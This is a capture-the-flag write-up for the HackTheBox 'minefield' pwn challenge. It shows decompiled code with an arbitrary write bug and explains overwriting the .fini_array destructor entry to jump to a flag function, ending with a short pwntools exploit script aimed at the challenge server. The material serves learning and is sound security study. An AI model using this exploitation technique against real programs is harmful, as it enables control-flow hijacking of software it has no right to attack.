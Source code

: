 ## Hackthebox Cyberapocalypse CTF: minefield [pwn]
![](minefield_desc.png)

## challenge information
#### This was a pretty neat challenge, I was able to learn another trick from stdnoerr, credits goes to him for the solution to this writeup. Basically, we have a binary with NO RELRO and NO PIE. We only continue to the actual parts of the program when we provide the choice for ready.

## your mission, should you choose to accept it: be a saboteur
#### Reversing the binary, we see the juicy parts of the program on the `mission()` function. We have a very easy write primitive when planting the mine due to the code below:
```c
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Insert type of mine: ");
  r(mine_type,param_2,extraout_EDX,param_4,param_5,param_6);
  pvVar1 = (void *)0x0;
  pointer = (ulonglong *)strtoull(mine_type,(char **)0x0,0);
  printf("Insert location to plant: ");
  r(mine_location,pvVar1,extraout_EDX_00,param_4,param_5,param_6);
  puts("We need to get out of here as soon as possible. Run!");
  data = strtoull(mine_location,(char **)0x0,0);
  *pointer = data;
```
#### We can provide an arbitrary location (which in this case is pretty easy thanks to NO PIE and NO RELRO) plus give it attacker-controlled data. Scrolling through other functions, we see a function labeled as `_` which prints out the flag for us. So the idea would be to overwrite some GOT entry to the location of our flag function. But the problem is that the binary doesn't call any functions after it does the write or does it?

![](convo.png)

#### Apparently, there is an analogous array for destructors in an ELF binary called `.fini_array`. I'll have to read more into it, but from what I can understand, destructors are invoked as the last function to make sure that a program makes a clean exit. 

#### Our target is an entry called `__do_global_dtors_aux` which runs all the global destructors on exit from the program on systems where .fini_array is not available [source](https://stackoverflow.com/questions/34966097/what-functions-does-gcc-add-to-the-linux-elf). We can leverage this for redirecting code flow and getting the flag.

![](minefield_flag.png)

##### stdnoerr's exploit
```python
#!/usr/bin/env python3
from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote('46.101.22.121', 30956)
    else:
        p = elf.process()

context.binary = elf = ELF('challenge/minefield')
libc = elf.libc
start()

p.sendlineafter('> ', '2')
p.sendlineafter(': ', str(elf.sym.__do_global_dtors_aux_fini_array_entry))
p.sendlineafter(': ', str(elf.sym._))

p.interactive()
p.close()
```